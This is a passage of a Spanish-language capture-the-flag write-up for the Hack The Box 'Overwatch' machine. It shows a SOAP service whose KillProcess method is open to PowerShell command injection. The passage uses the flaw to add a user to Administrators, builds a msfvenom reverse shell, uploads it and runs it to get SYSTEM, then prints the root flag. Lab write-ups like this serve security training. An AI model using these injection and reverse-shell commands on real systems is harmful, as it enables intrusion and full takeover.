<?xml version="1.0" encoding="utf-8"?><wsdl:definitions name="MonitoringService" targetNamespace="http://tempuri.org/" xmlns:wsdl="http://schemas.xmlsoap.org/wsdl/" xmlns:wsx="http://schemas.xmlsoap.org/ws/2004/09/mex" xmlns:wsu="http://docs.oasis-open.org/wss/2004/01/oasis-200401-wss-wssecurity-utility-1.0.xsd" xmlns:wsa10="http://www.w3.org/2005/08/addressing" xmlns:wsp="http://schemas.xmlsoap.org/ws/2004/09/policy" xmlns:wsap="http://schemas.xmlsoap.org/ws/2004/08/addressing/policy" xmlns:msc="http://schemas.microsoft.com/ws/2005/12/wsdl/contract" xmlns:soap12="http://schemas.xmlsoap.org/wsdl/soap12/" xmlns:wsa="http://schemas.xmlsoap.org/ws/2004/08/addressing" xmlns:wsam="http://www.w3.org/2007/05/addressing/metadata" xmlns:xsd="http://www.w3.org/2001/XMLSchema" xmlns:tns="http://tempuri.org/" xmlns:soap="http://schemas.xmlsoap.org/wsdl/soap/" xmlns:wsaw="http://www.w3.org/2006/05/addressing/wsdl" xmlns:soapenc="http://schemas.xmlsoap.org/soap/encoding/"><wsdl:types><xsd:schema targetNamespace="http://tempuri.org/Imports"><xsd:import schemaLocation="http://overwatch.htb:8000/MonitorService?xsd=xsd0" namespace="http://tempuri.org/"/><xsd:import schemaLocation="http://overwatch.htb:8000/MonitorService?xsd=xsd1" namespace="http://schemas.microsoft.com/2003/10/Serialization/"/></xsd:schema></wsdl:types><wsdl:message name="IMonitoringService_StartMonitoring_InputMessage"><wsdl:part name="parameters" element="tns:StartMonitoring"/></wsdl:message><wsdl:message name="IMonitoringService_StartMonitoring_OutputMessage"><wsdl:part name="parameters" element="tns:StartMonitoringResponse"/></wsdl:message><wsdl:message name="IMonitoringService_StopMonitoring_InputMessage"><wsdl:part name="parameters" element="tns:StopMonitoring"/></wsdl:message><wsdl:message name="IMonitoringService_StopMonitoring_OutputMessage"><wsdl:part name="parameters" element="tns:StopMonitoringResponse"/></wsdl:message><wsdl:message name="IMonitoringService_KillProcess_InputMessage"><wsdl:part name="parameters" element="tns:KillProcess"/></wsdl:message><wsdl:message name="IMonitoringService_KillProcess_OutputMessage"><wsdl:part name="parameters" element="tns:KillProcessResponse"/></wsdl:message><wsdl:portType name="IMonitoringService"><wsdl:operation name="StartMonitoring"><wsdl:input wsaw:Action="http://tempuri.org/IMonitoringService/StartMonitoring" message="tns:IMonitoringService_StartMonitoring_InputMessage"/><wsdl:output wsaw:Action="http://tempuri.org/IMonitoringService/StartMonitoringResponse" message="tns:IMonitoringService_StartMonitoring_OutputMessage"/></wsdl:operation><wsdl:operation name="StopMonitoring"><wsdl:input wsaw:Action="http://tempuri.org/IMonitoringService/StopMonitoring" message="tns:IMonitoringService_StopMonitoring_InputMessage"/><wsdl:output wsaw:Action="http://tempuri.org/IMonitoringService/StopMonitoringResponse" message="tns:IMonitoringService_StopMonitoring_OutputMessage"/></wsdl:operation><wsdl:operation name="KillProcess"><wsdl:input wsaw:Action="http://tempuri.org/IMonitoringService/KillProcess" message="tns:IMonitoringService_KillProcess_InputMessage"/><wsdl:output wsaw:Action="http://tempuri.org/IMonitoringService/KillProcessResponse" message="tns:IMonitoringService_KillProcess_OutputMessage"/></wsdl:operation></wsdl:portType><wsdl:binding name="BasicHttpBinding_IMonitoringService" type="tns:IMonitoringService"><soap:binding transport="http://schemas.xmlsoap.org/soap/http"/><wsdl:operation name="StartMonitoring"><soap:operation soapAction="http://tempuri.org/IMonitoringService/StartMonitoring" style="document"/><wsdl:input><soap:body use="literal"/></wsdl:input><wsdl:output><soap:body use="literal"/></wsdl:output></wsdl:operation><wsdl:operation name="StopMonitoring"><soap:operation soapAction="http://tempuri.org/IMonitoringService/StopMonitoring" style="document"/><wsdl:input><soap:body use="literal"/></wsdl:input><wsdl:output><soap:body use="literal"/></wsdl:output></wsdl:operation><wsdl:operation name="KillProcess"><soap:operation soapAction="http://tempuri.org/IMonitoringService/KillProcess" style="document"/><wsdl:input><soap:body use="literal"/></wsdl:input><wsdl:output><soap:body use="literal"/></wsdl:output></wsdl:operation></wsdl:binding><wsdl:service name="MonitoringService"><wsdl:port name="BasicHttpBinding_IMonitoringService" binding="tns:BasicHttpBinding_IMonitoringService"><soap:address location="http://overwatch.htb:8000/MonitorService"/></wsdl:port></wsdl:service></wsdl:definitions>
```

El WSDL revela que el servicio expone tres métodos principales:

* `StartMonitoring`
* `StopMonitoring`
* `KillProcess`

### Interacción con el servicio y validación de `KillProcess`

Creamos un cliente SOAP dinámico desde PowerShell:

```powershell
$service = New-WebServiceProxy -Uri "http://localhost:8000/MonitorService?wsdl" -Namespace "Monitor" -UseDefaultCredential
$service | Get-Member -MemberType Method
```

Resultado:

```
TypeName: Monitor.MonitoringService

Name                      MemberType Definition
----                      ---------- ----------
Abort                     Method     void Abort()
BeginKillProcess          Method     System.IAsyncResult BeginKillProcess(string processName, System.AsyncCallback callback, System.Object asyncState)
BeginStartMonitoring      Method     System.IAsyncResult BeginStartMonitoring(System.AsyncCallback callback, System.Object asyncState)
BeginStopMonitoring       Method     System.IAsyncResult BeginStopMonitoring(System.AsyncCallback callback, System.Object asyncState)
CancelAsync               Method     void CancelAsync(System.Object userState)
CreateObjRef              Method     System.Runtime.Remoting.ObjRef CreateObjRef(type requestedType)
Discover                  Method     void Discover()
Dispose                   Method     void Dispose(), void IDisposable.Dispose()
EndKillProcess            Method     string EndKillProcess(System.IAsyncResult asyncResult)
EndStartMonitoring        Method     string EndStartMonitoring(System.IAsyncResult asyncResult)
EndStopMonitoring         Method     string EndStopMonitoring(System.IAsyncResult asyncResult)
Equals                    Method     bool Equals(System.Object obj)
GetHashCode               Method     int GetHashCode()
GetLifetimeService        Method     System.Object GetLifetimeService()
GetType                   Method     type GetType()
InitializeLifetimeService Method     System.Object InitializeLifetimeService()
KillProcess               Method     string KillProcess(string processName)
KillProcessAsync          Method     void KillProcessAsync(string processName), void KillProcessAsync(string processName, System.Object userState)
StartMonitoring           Method     string StartMonitoring()
StartMonitoringAsync      Method     void StartMonitoringAsync(), void StartMonitoringAsync(System.Object userState)
StopMonitoring            Method     string StopMonitoring()
StopMonitoringAsync       Method     void StopMonitoringAsync(), void StopMonitoringAsync(System.Object userState)
ToString                  Method     string ToString()
```

El método **`KillProcess`** resulta especialmente interesante, ya que permite terminar procesos del sistema y el servicio se ejecuta con privilegios elevados (**SYSTEM**).

Probamos su funcionamiento básico lanzando y matando un proceso `notepad.exe`, confirmando que el método funciona correctamente.

### Command Injection

Analizando el código de `KillProcess` en el archivo `overwatch.il`, observamos que el parámetro `processName` se concatena directamente dentro de un comando PowerShell:

```
// method line 9
    .method public final virtual hidebysig newslot
           instance default string KillProcess (string processName)  cil managed
    {
        // Method begins at RVA 0x21a8
        // Code size 193 (0xc1)
        .maxstack 3
        .locals init (
                string  V_0,
                class [System.Management.Automation]System.Management.Automation.Runspaces.Runspace     V_1,
                class [System.Management.Automation]System.Management.Automation.Runspaces.Pipeline     V_2,
                class [mscorlib]System.Text.StringBuilder       V_3,
                class [mscorlib]System.Collections.Generic.IEnumerator`1<class [System.Management.Automation]System.Management.Automation.PSObject>     V_4,
                class [System.Management.Automation]System.Management.Automation.PSObject       V_5,
                string  V_6,
                class [mscorlib]System.Exception        V_7)
        IL_0000:  ldstr "Stop-Process -Name "
        IL_0005:  ldarg.1
        IL_0006:  ldstr " -Force"
        IL_000b:  call string string::Concat(string, string, string)
        IL_0010:  stloc.0
        .try { // 3
          IL_0011:  call class [System.Management.Automation]System.Management.Automation.Runspaces.Runspace class [System.Management.Automation]System.Management.Automation.Runspaces>
          IL_0016:  stloc.1
          .try { // 2
            IL_0017:  ldloc.1
            IL_0018:  callvirt instance void class [System.Management.Automation]System.Management.Automation.Runspaces.Runspace::Open()
            IL_001d:  ldloc.1 
            IL_001e:  callvirt instance class [System.Management.Automation]System.Management.Automation.Runspaces.Pipeline class [System.Management.Automation]System.Management.Autom>
            IL_0023:  stloc.2
            .try { // 1
```

Vemos interesante esta parte:

```
IL_0000:  ldstr "Stop-Process -Name "
IL_0005:  ldarg.1                      ; ← Este es el argumento `processName`
IL_0006:  ldstr " -Force"
IL_000b:  call string string::Concat(string, string, string)
IL_0010:  stloc.0                      ; ← Resultado final: el comando completo como string
```

Esto introduce una **Command Injection**, ya que no existe ninguna validación o sanitización del input del usuario.

Aprovechamos esta vulnerabilidad para ejecutar comandos arbitrarios y añadir nuestro usuario al grupo de administradores:

```powershell
$service = New-WebServiceProxy -Uri "http://localhost:8000/MonitorService?wsdl" -Namespace "Monitor" -UseDefaultCredential
$service.KillProcess("notepad; net localgroup Administrators sqlmgmt /add")
```

Verificamos que el usuario ha sido añadido correctamente:

```powershell
net localgroup Administrators
```

Resultado:

```
Alias name     Administrators
Comment        Administrators have complete and unrestricted access to the computer/domain

Members

-------------------------------------------------------------------------------
Administrator
Domain Admins
Enterprise Admins
sqlmgmt
The command completed successfully.
```

### Obtención de SYSTEM

Generamos una reverse shell con `msfvenom`:

```shell
msfvenom -p windows/x64/shell_reverse_tcp LHOST=<IP> LPORT=<PORT> -f exe -o rev_shell.exe
```

Subimos el binario al sistema mediante `evil-winrm`:

```powershell
mkdir C:\Temp
cd C:\Temp
upload rev_shell.exe
```

Resultado:

```
Info: Uploading /home/kali/Desktop/HTB/overwatch/rev_shell.exe to C:\Temp\rev_shell.exe
                                        
Data: 10240 bytes of 10240 bytes copied
                                        
Info: Upload successful!
```

Nos ponemos a la escucha:

```shell
nc -lvnp <PORT>
```

Ejecutamos la reverse shell explotando nuevamente la Command Injection:

```powershell
$service.KillProcess("notepad; C:\Temp\rev_shell.exe")
```

Recibimos conexión como **SYSTEM**:

```
listening on [any] 7777 ...
connect to [10.10.15.33] from (UNKNOWN) [10.129.16.204] 61691
Microsoft Windows [Version 10.0.20348.4648]
(c) Microsoft Corporation. All rights reserved.

C:\Software\Monitoring>whoami
whoami
nt authority\system
```

Finalmente, leemos la flag de administrador y damos por comprometida la máquina:

> root.txt

```
a6effd38bb56d63f791adb1ab17756eb
```
